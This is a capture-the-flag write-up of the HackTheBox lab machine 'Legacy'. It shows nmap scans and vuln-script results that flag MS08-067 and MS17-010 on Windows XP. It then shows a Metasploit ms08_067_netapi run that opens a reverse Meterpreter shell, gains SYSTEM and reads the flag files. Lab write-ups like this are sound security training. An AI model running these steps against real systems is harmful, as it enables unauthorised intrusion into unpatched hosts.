

hackthebox Legacy
Released: 15th March 2017 / Pwned: August 26th 2019 - [+] Solved whilst Retired

Not much to learn here :/ Scan for open ports, scan for vulnerabilities on open ports using nmap's vuln scripts and use a ready-made metasploit exploit to gain NT AUTHORITY/SYSTEM privileges.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.4
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/legacy# mkdir nmap
root@gotham:~/ctf/legacy# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.4
...
PORT STATE SERVICE VERSION
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (94%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
Aggressive OS guesses: Microsoft Windows XP SP3 (94%), Microsoft Windows Server 2003 SP1 or SP2 (92%), ...
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
Host script results:
|_clock-skew: mean: 5d00h15m43s, deviation: 2h07m16s, median: 4d22h45m43s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:96:4f (VMware)
| smb-os-discovery:
| OS: Windows XP (Windows 2000 LAN Manager)
| OS CPE: cpe:/o:microsoft:windows_xp::-
| Computer name: legacy
| NetBIOS computer name: LEGACY\x00
| Workgroup: HTB\x00
|_ System time: 2019-08-31T14:30:49+03:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 266.62 seconds
Ports
• 139/smb - Can't login because no credentials and NULL session isn't allowed
• 445/smb - Encrypted SMB. Same situation as 139
• 3389/rdp - RDP. Tshe port is closed so nothing can be done here
2) Nmap Vuln Scripts
There's no information to collect or progress to be made with the state of the current ports found above.
Try running nmap's “vuln� scripts against each of the services to scan the target for vulnerabilities.
root@gotham:~/ctf/legacy# nmap -p 139,445,3389 --script "vuln" 10.10.10.4
...
Pre-scan script results:
| broadcast-avahi-dos:
| Discovered hosts:
| 224.0.0.251
| After NULL UDP avahi packet DoS (CVE-2011-1002).
|_ Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.042s latency).
PORT STATE SERVICE
139/tcp open netbios-ssn
445/tcp open microsoft-ds
3389/tcp closed ms-wbt-server
Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067:
| VULNERABLE:
| Microsoft Windows system vulnerable to remote code execution (MS08-067)
| State: LIKELY VULNERABLE
| IDs: CVE:CVE-2008-4250
| The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
| Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
| code via a crafted RPC request that triggers the overflow during path canonicalization.
|
| Disclosure date: 2008-10-23
| References:
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_ https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
| VULNERABLE:
| Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
| State: VULNERABLE
| IDs: CVE:CVE-2017-0143
| Risk factor: HIGH
| A critical remote code execution vulnerability exists in Microsoft SMBv1
| servers (ms17-010).
|
| Disclosure date: 2017-03-14
| References:
| https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
| https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
Nmap done: 1 IP address (1 host up) scanned in 42.17 seconds
Nmap found 2 potential vulnerabilities, both of which are smb vulns - MS08-067 and ms17-010.
3) metasploit MS08-067
Open metasploit with msfconsole and search for an ms08-067 exploit in metasploit.
Point the exploit at the target and run it.
root@gotham:~/ctf/legacy# msfconsole
...
msf5 > search ms08-067
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/smb/ms08_067_netapi 2008-10-28 great Yes MS08-067 Microsoft Server Service Relative Path Stack Corruption
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target address range or CIDR identifier
RPORT 445 yes The SMB service port (TCP)
SMBPIPE BROWSER yes The pipe name to use (BROWSER, SRVSVC)
Exploit target:
Id Name
-- ----
0 Automatic Targeting
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run
[*] Started reverse TCP handler on 10.10.14.3:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 10.10.10.4:445 - We could not detect the language pack, defaulting to English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.4:1031) at 2019-08-26 12:10:59 +0100
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
We have SYSTEM privileges!
*Note that if the exploit doesn't work (or you get a timeout error), try resetting the box. Someone has probably already exploited the machine*
Go grab user.txt and root.txt from john and Administrator's desktop.
meterpreter > pwd
C:\WINDOWS\system32
meterpreter > cd ../../
meterpreter > ls
Listing: C:\
============
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
100777/rwxrwxrwx 0 fil 2017-03-16 05:30:44 +0000 AUTOEXEC.BAT
100666/rw-rw-rw- 0 fil 2017-03-16 05:30:44 +0000 CONFIG.SYS
40777/rwxrwxrwx 0 dir 2017-03-16 05:20:29 +0000 Documents and Settings
100444/r--r--r-- 0 fil 2017-03-16 05:30:44 +0000 IO.SYS
100444/r--r--r-- 0 fil 2017-03-16 05:30:44 +0000 MSDOS.SYS
100555/r-xr-xr-x 47564 fil 2008-04-13 21:13:04 +0100 NTDETECT.COM
40555/r-xr-xr-x 0 dir 2017-03-16 05:20:57 +0000 Program Files
40777/rwxrwxrwx 0 dir 2017-03-16 05:20:30 +0000 System Volume Information
40777/rwxrwxrwx 0 dir 2017-03-16 05:18:34 +0000 WINDOWS
100666/rw-rw-rw- 211 fil 2017-03-16 05:20:02 +0000 boot.ini
100444/r--r--r-- 250048 fil 2008-04-13 23:01:44 +0100 ntldr
236011474/r--rwxr-- 99075549669916655 fif 3148583492-11-30 05:22:08 +0000 pagefile.sys
meterpreter > cd Documents\ and\ Settings
meterpreter > ls
Listing: C:\Documents and Settings
==================================
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
40777/rwxrwxrwx 0 dir 2017-03-16 06:07:20 +0000 Administrator
40777/rwxrwxrwx 0 dir 2017-03-16 05:20:29 +0000 All Users
40777/rwxrwxrwx 0 dir 2017-03-16 05:20:29 +0000 Default User
40777/rwxrwxrwx 0 dir 2017-03-16 05:32:52 +0000 LocalService
40777/rwxrwxrwx 0 dir 2017-03-16 05:32:42 +0000 NetworkService
40777/rwxrwxrwx 0 dir 2017-03-16 05:33:41 +0000 john
meterpreter > cat Administrator/Desktop/root.txt
993442...
meterpreter > cat john/Desktop/user.txt
e69af0...